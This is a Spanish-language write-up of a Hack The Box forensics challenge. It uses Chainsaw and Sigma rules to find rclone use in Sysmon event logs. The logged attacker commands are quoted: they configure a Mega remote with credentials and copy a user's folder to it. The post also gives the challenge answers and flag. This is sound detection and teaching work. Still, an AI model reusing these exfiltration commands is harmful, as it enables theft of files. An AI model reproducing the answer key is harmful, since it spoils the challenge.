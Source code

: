 ```yaml
---
layout: single
title: Packet Cyclone - CTF HTB Cyber Apocalypse 2023
excerpt: "Este es el quinto desafío forense del evento Cyber Apocalypse 2023 de Hack The Box. Se considera de dificultad fácil y consiste en analizar un archivo de registro de eventos de Windows (.evtx) generado por el servicio Sysmon. En este archivo se registra la ejecución sospechosa del software Rclone a través de la línea de comandos en un equipo con Windows. Nuestra tarea consiste en responder todas las preguntas solicitadas para que la plataforma de HTB nos entregue la flag del desafío."
date: 2023-03-22
classes: wide
header:
  teaser: /assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - ctf
  - forense
tags:  
  - chainsaw
  - sigma rules
---
```


![](/assets/images/htb-cyber-apocalypse-plaintext-treasure/cyber-apocalypse-ctf-2023.jpg)

**Dificultad:** easy

## Enunciado

_El amigo y socio de Pandora, Wade, es quien dirige la investigación sobre la ubicación de la reliquia. Recientemente, notó un tráfico extraño proveniente de su host. Eso lo llevó a creer que su host estaba comprometido. Después de una rápida investigación, se confirmó su temor. Pandora intenta ahora ver si el atacante provocó el tráfico sospechoso durante la fase de exfiltración. Pandora cree que el actor malicioso usó rclone para filtrar la investigación de Wade a la nube. Usando la herramienta llamada "chainsaw" y las reglas sigma provistas, ¿puede detectar el uso de rclone de los registros de eventos producidos por Sysmon? Para obtener la bandera, debe iniciar y conectarse al servicio docker y responder todas las preguntas correctamente._

## Archivos del desafio

Se nos entrega un archivo comprimido en formato `.zip`, que contiene una carpeta de registro de logs de Windows con 149 archivos `.evtx`, así como una segunda carpeta llamada `sigma_rules`, que contiene dos reglas sigma en formato `.yaml`. El objetivo de este desafío es utilizar la herramienta `chainsaw`, junto con las reglas sigma, para analizar todos los archivos `.evtx` de Windows y encontrar la ejecución sospechosa del software Rclone. Parece ser que este software ha sido utilizado para exfiltrar información de una computadora previamente comprometida.

La herramienta `chainsaw` esta disponible para `Linux` y `Windows` en su repositorio de [GitHub](https://github.com/WithSecureLabs/chainsaw).

En mi caso, utilizaré la versión para Linux de la herramienta `chainsaw`, y solo trabajaré con los registros presentes en el archivo `Microsoft-Windows-Sysmon Operational.evtx`. Seguiré esta arquitectura de archivos específica según lo indicado en el enunciado del desafío:
```
❯ tree
.
├── chainsaw
│   ├── chainsaw
│   ├── LICENCE
│   ├── mappings
│   │   ├── sigma-event-logs-all.yml
│   │   ├── sigma-event-logs-legacy.yml
│   │   └── sigma-mft-logs-all.yml
│   └── README.md
├── Logs
│   └── Microsoft-Windows-Sysmon%4Operational.evtx
└── sigma_rules
    ├── rclone_config_creation.yaml
    └── rclone_execution.yaml

5 directories, 9 files
```

## Chainsaw

Tal como se indica en su repositorio de GitHub, `Chainsaw` proporciona una potente capacidad de "primera respuesta" para identificar rápidamente amenazas dentro de los artefactos forenses de Windows, como los archivos `.evtx` ubicados en la ruta `C:\Windows\System32\winevt\Logs`. `Chainsaw` ofrece un método genérico y rápido para buscar palabras clave en los registros de eventos y detectar amenazas mediante la integración incorporada de las reglas de detección de Sigma y las reglas de detección personalizadas de `Chainsaw`.

En este caso, el desafío ya nos proporciona las reglas Sigma que utilizaremos, las cuales se encuentran en la carpeta `sigma_rules`. Al ejecutar la herramienta a través de la interfaz de línea de comandos (CLI), el comando se vería de la siguiente manera:
```
❯ ./chainsaw hunt ../Logs -s ../sigma_rules --mapping mappings/sigma-event-logs-all.yml
```

El comando anterior indica a la herramienta `Chainsaw` que se ejecute en modo `hunt` sobre todos los archivos dentro de la carpeta `Logs`. Luego, utiliza todas las reglas sigma proporcionadas en el desafío para la lógica de detección, y por último, utiliza el archivo `sigma-event-logs-all.yml` para el análisis de los registros.

Luego de ejecutar el comando, la salida se verá de la siguiente manera:
![](/assets/images/htb-cyber-apocalypse-packet-cyclone/chainsaw.png)

Y el detalle sería este:
```
CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI'
Company: https://rclone.org 
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v161.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D92B-63F8-B100-000000000900
ProcessId: 3820
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:07.336


CommandLine: '"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v'
Company: https://rclone.org
CurrentDirectory: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\
Description: Rsync for cloud storage
FileVersion: 1.61.1
Hashes: SHA256=E94901809FF7CC5168C1E857D4AC9CBB339CA1F6E21DCCE95DFB8E28DF799961
Image: C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe
IntegrityLevel: Medium
LogonGuid: 10DA3E43-D892-63F8-4B6D-030000000000
LogonId: '0x36d4b'
OriginalFileName: rclone.exe
ParentCommandLine: '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"'
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentProcessGuid: 10DA3E43-D8D2-63F8-9B00-000000000900
ParentProcessId: 5888
ParentUser: DESKTOP-UTDHED2\wade
ProcessGuid: 10DA3E43-D935-63F8-B200-000000000900
ProcessId: 5116
Product: Rclone
RuleName: '-'
TerminalSessionId: 1
User: DESKTOP-UTDHED2\wade
UtcTime: 2023-02-24 15:35:17.516
```

Con toda la información anterior, ya podemos conectarnos al contenedor Docker de HTB y responder las siguientes preguntas.

# Preguntas

1. ¿Cuál es el correo electrónico del atacante utilizado para el proceso de exfiltración? (por ejemplo: nombre@email.com)
Si observamos los detalles encontrados por la herramienta `Chainsaw`, podemos ver que se ha ejecutado el siguiente comando a través de PowerShell:
```
rclone.exe config create remote mega user majmeret@protonmail.com pass FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI
```
`Respuesta: majmeret@protonmail.com`

2. ¿Cuál es la contraseña del atacante utilizada para el proceso de exfiltración?
En el comando anterior, también se puede observar esta respuesta:
`Respuesta: FBMeavdiaFZbWzpMqIVhJCGXZ5XXZI1sU3EjhoKQw0rEoQqHyI`

3. ¿Cuál es el proveedor de almacenamiento en la nube que utiliza el atacante?
Esta respuesta la deduje por descarte, en un principio intenté encontrar alguna URL u otra pista que indicara el proveedor de nube, pero en realidad es tan simple como observar que en el comando anterior se menciona el servicio de Mega.
`Respuesta: mega`

4. ¿Cuál es el ID del proceso utilizado por los atacantes para configurar su herramienta?
Al observar los detalles de las dos detecciones encontradas por Chainsaw, podemos identificar que la primera detección corresponde a la configuración y la segunda detección corresponde a la exfiltración. Por lo tanto, el ID de proceso de la configuración es 3820.
`Respuesta: 3820`

5. ¿Cuál es el nombre de la carpeta que exfiltro el atacante? proporcionar la ruta completa.
Para responder a esta pregunta, debemos examinar el detalle de la segunda detección, que corresponde al proceso de exfiltración. En este caso, se ha ejecutado el siguiente comando a través de PowerShell:
```
"C:\Users\wade\AppData\Local\Temp\rclone-v1.61.1-windows-amd64\rclone.exe" copy C:\Users\Wade\Desktop\Relic_location\ remote:exfiltration -v
```
`Respuesta: C:\Users\Wade\Desktop\Relic_location`


6. ¿Cuál es el nombre de la carpeta a la que el atacante extrajo los archivos?
En el comando anterior, podemos observar que el destino es `remote:exfiltration`, lo que indica que el nombre de la carpeta es `exfiltration.`
`Respuesta: exfiltration`

Luego de responder estas seis simples preguntas, el contenedor Docker de HTB nos proporcionará la flag.

## Flag

**HTB{3v3n_3xtr4t3rr3str14l_B31nGs_us3_Rcl0n3_n0w4d4ys}**

